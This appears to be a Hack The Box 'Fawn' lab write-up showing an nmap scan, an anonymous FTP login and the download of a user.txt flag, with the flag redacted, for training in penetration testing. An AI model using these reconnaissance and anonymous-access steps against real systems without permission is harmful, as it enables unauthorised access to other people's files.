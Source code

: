 # HTB - Fawn Writeup
Gain initial access and capture the user flag by exploiting an exposed FTP service.

Nmap Scan 

nmap -sC -sV -Pn <target-ip>

Result:
Port 21/tcp open - FTP
Anonymous login allowed

Exploitation Steps
1. Connect to FTP
ftp <target-ip>
Username: anonymous
Password: (press Enter)

2. Browse and Download Files
ls
get user.txt

3. Exit FTP
bye

Flag
HTB{redacted}

Tools Used:

nmap
ftp (Linux terminal tool)

Lessons Learned:

Anonymous FTP access can lead to serious security issues.

Always test for login access when enumerating services.

FTP command-line usage is a useful skill for CTF and real-world testing

